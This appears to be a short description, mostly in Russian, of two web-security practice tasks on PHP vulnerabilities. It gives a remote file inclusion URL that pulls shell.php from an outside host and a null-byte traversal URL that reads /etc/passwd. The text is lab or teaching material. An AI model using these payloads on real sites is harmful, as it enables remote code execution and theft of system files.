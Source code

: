 These are test tasks on web security. Description follows.

Task 1
На сервере должны быть включены register_globals и allow_url_fopen.
 
Для взлома вводится url вида target-site.com/page1.php?file_to_open=http://some-other-site/shell.php
В данных настройках это приведет к подключению удаленного файла shell.php в скрипт page1.php и его исполнению.
Для атаки нужно знать имя переменной file_to_open


Task 2
Здесь используется вставка нулевого байта в плохо экранированную строку, которая используется в параметре функции require_once.
 
Для взлома в параметре GET передается предполагаемый путь к списку паролей, либо любому другому важному файлу:
target-site.com/page1.php?file=../../../etc/passwd%00
 
Для успешной выдачи файла на вывод нужно, чтобы нулевой символ безпрепятственно прошел экранирование.
